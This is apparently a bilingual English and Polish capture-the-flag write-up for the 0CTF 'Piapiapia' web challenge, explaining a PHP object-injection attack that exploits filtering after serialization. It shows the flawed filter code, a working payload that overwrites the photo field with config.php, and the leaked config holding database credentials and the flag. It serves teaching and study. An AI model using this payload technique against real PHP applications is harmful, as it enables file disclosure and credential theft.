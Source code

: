 ## Piapiapia (Web, 6p)
	
###ENG
[PL](#pl-version)

We get a page and its source. It looks like flag is stored inside config.php.
All inputs seem pretty well validated but 'nickname' doesn't handle arrays well.
Validation is skipped when passed as 'nickname[]='.

SQL injection will be hard, as all backslashes and "unsafe" words are removed:
```php
function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
The problem is, it's sanitized *after* being serialized:
```php
$user->update_profile($username, serialize($profile));

public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```

Replacing "where" with "hacker" changes the length of the string.
Allowing us to replace part of serialized object with our content.
We replace photo file name with "config.php":
```php
$payload = "\";}s:5:\"photo\";s:10:\"config.php\";}\";";
$POST['nickname[]'] = str_repeat("where", strlen($payload)).$payload;
```
After this, "config.php" is returned as base64 encoded data uri:
```php
<?php
	  $config['hostname'] = '127.0.0.1';
	  $config['username'] = '0ctf';
	  $config['password'] = 'oh-my-**-web';
	  $config['database'] = '0CTF_WEB';
	  $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
?>
```
###PL version

Ptrzymujemy strone PHP wraz ze źródłem. Flaga przetrzymywana jest w pliku config.php.
Wszystkie wartośći wejśćiowe wydają się dobrze sprawdzane.
Jednak walidacja 'nickname' nie zadziała jeżeli przekażemy go jako tablicę: `nickname[]=`

SQL injection może jednak okazać się problematyczne. Wszystkie `\\` oraz "podejżane" słowa kluczowe są usuwane:
```php
function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
Niedopatrzeniem okazuje się to, że dane profilu "oczyszczane" są po serializacji: 
```php
$user->update_profile($username, serialize($profile));

public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```

Zamiana "where" na "hacker" zmienia długość zakodowanego łańcucha.
Umożliwia to nadpisanie końcówki obiektu naszymi wartościami.
Zamieniamy nazwę pliku ze zdjęciem na "config.php":
```php
$payload = "\";}s:5:\"photo\";s:10:\"config.php\";}\";";
$POST['nickname[]'] = str_repeat("where", strlen($payload)).$payload;
```
Dzięki temu "config.php" jest nam zwracany jako base64 data uri:
```php
<?php
	  $config['hostname'] = '127.0.0.1';
	  $config['username'] = '0ctf';
	  $config['password'] = 'oh-my-**-web';
	  $config['database'] = '0CTF_WEB';
	  $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
?>
```
